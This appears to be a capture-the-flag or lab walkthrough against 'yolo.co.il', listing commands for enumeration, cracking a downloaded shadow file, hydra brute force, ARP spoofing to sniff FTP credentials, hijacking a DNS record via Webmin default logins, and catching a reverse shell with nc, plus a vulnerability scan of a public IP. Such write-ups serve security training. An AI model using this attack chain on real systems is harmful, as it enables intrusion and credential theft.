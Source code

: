 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working. 
9. ssh to admin with the found password fails
10. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
11. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
12. sudo dig axfr @192.168.2.3
13. curl http://192.168.2.3:10000
14. wget https://c4705d283d7e:10000 --no-check-certificate
15. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
16. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
17. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
18. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
19. we found username and password! ftp_yolo  CyberSec@12 
20. ftp ftp.yolo.co.il # and put the details of the user.
21. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

########################################################################################################################################################################
															more pentest stuff with nmap:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 -p 80
4. nmap -sV --script nmap-vulners/ 151.101.131.5

########################################################################################################
															usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`





